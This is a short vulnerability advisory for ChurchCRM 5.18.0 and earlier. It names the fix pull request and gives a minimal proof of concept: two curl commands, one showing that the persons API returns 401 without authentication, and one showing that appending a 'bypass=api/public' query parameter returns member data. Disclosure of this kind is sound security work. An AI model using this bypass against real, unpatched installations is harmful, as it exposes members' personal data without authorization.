 Affected versions: ChurchCRM <= 5.18.0
Patched in: PR #7376 (merge commit 3a1cffd) — patch expected in 5.18.1+

Fix PR: https://github.com/ChurchCRM/CRM/pull/7376

Minimal PoC (demonstrates auth bypass):
# unauthenticated (expected HTTP/401)
curl -i 'https://<target>/api/persons/latest'

# bypass by adding query parameter (returns HTTP/200 and member data)
curl -i 'https://<target>/api/persons/latest?bypass=api/public'
